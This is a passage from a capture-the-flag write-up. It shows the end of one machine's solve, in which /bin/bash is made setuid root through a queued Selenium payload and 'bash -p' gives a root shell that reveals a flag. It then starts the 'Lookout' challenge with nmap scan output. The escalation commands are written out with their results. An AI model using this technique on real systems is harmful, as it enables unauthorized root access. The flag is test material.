 ```http
        }
    }
}
```

After making the request, we can see in the UI that our request is in queue.

![A screenshot of the Selenium Web queue that shows our payload](/assets/img/stack-the-flags-2022/selenium-web-queue.png)

Once it disappears from the queue, it means it’s finished.

We can go back to the remote machine and check.

```
john@electrogrid:/dev/shm$ ls -la /bin/bash           ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

And it worked!

```
john@electrogrid:/dev/shm$ /bin/bash -p               /bin/bash -p
/bin/bash -p
id
uid=1000(john) gid=1000(john) euid=0(root) groups=1000(john)
cat /root/root.txt
STF22{bbe7145febbce7ddd4dd3e22a37e93d1}
```

And thats it for this one!

## Lookout (Fullpwn, 2000 Points)

Note: This will be a short writeup as I used two unintended ways to get system on the machine.

### Enumeration

I’ll start with an `nmap` scan with the usual options:

```
Discovered open port 80/tcp on 10.129.254.249
Discovered open port 135/tcp on 10.129.254.249
Discovered open port 445/tcp on 10.129.254.249
Discovered open port 139/tcp on 10.129.254.249
Discovered open port 53/tcp on 10.129.254.249
Discovered open port 3269/tcp on 10.129.254.249
Discovered open port 389/tcp on 10.129.254.249
Discovered open port 88/tcp on 10.129.254.249
Discovered open port 636/tcp on 10.129.254.249
Discovered open port 3268/tcp on 10.129.254.249
Discovered open port 593/tcp on 10.129.254.249
Discovered open port 464/tcp on 10.129.254.249
```
